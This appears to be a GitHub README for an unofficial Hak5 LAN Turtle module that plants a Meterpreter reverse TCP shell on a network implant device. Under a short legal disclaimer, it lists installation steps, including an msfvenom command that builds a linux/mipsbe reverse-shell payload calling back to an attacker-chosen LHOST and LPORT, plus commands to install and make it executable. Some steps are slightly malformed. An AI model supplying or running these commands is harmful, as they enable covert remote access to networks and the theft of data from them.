 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from github**<br />
`git clone https://github.com/ATTACKnDEFEND/LanTurtlemeterpreter-mipsbe-reverse-tcp`

**2 - On LAN Turtle: copy meterpreter-mipsbe-reverse-tcp to Hak5 Turtle modules directory**<br />
`copy meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: generate Meterpreter payload with Msfvenom**<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f elf > meterpreter-mipsbe-reverse-tcp`

**4 - On LAN Turtle, transfer Meterpreter payload 
transfer meterpreter-mipsbe-reverse-tcp to /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />






